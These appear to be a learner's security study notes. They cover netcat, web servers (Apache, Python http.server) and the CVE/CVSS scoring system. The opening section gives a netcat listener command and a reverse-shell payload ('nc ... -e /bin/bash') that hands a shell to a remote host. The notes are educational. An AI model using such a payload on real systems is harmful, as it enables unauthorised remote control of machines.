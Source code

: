 - Syntax :
     1. for creating listening port :
         -  *netcat  -nlvp  port_number*         [[Pasted image 20240601152834.png]]
     2. When you write your payload you write this :
         -  *nc  Ip_add  port_no   -e  /bin/bash* 
- check this short video :
     -  https://www.youtube.com/watch?v=TWbl-1BlBM0

## Web Servers

- A *web server* is software and hardware that uses HTTP (Hypertext Transfer Protocol) and other protocols to respond to client requests made over the World Wide Web.
- References :
     1. https://www.techtarget.com/whatis/definition/Web-server
     2. https://www.geeksforgeeks.org/web-server-and-its-type/

- There are a lot of software that can be installed on the server to work like web server.
### 1. Apache Server
- This server software will help to provide Web contents.
- On *Linux* it comes *built in*.
- On *Windows* you can install it using *Xampp* and *Wampp* software and it give you *localhost* web contents.
- To start this server software :
     -   *sudo  systemctl   start  apache2*
        - from now on our computer is acting like a *webserver*  and the default port is *80*.
        - by running our Ip on a browser we can get a website.
        - The default path of apache2 is */var/www/html*.
### 2. Python Server
- We can use python to start web servers.
- To start the service :
     -  *python3  -m  http.server  port_no*
- The python will help you to host website from any path on your computer with any port you need.

## CVE 

- *Common Vulnerabilities and Exposures (CVE)* is a database of publicly disclosed information security issues. A CVE number uniquely identifies one vulnerability from the list.
- The glossary analyzes vulnerabilities and then uses the common vulnerability scoring system (CVSS) to evaluate the threat level of a vulnerability.
- It is leveled as :
     -   *CVE-YEAR-ID*
     -  *CVE-2019-22321* 
- CVSS uses the following metric and rating value :
     1. [[Pasted image 20240601161738.png]] 
     2. [[Pasted image 20240601161816.png]]

- References :
     1. https://www.balbix.com/insights/what-is-a-cve/
     2. https://www.cve.org/About/Overview
     3. https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures
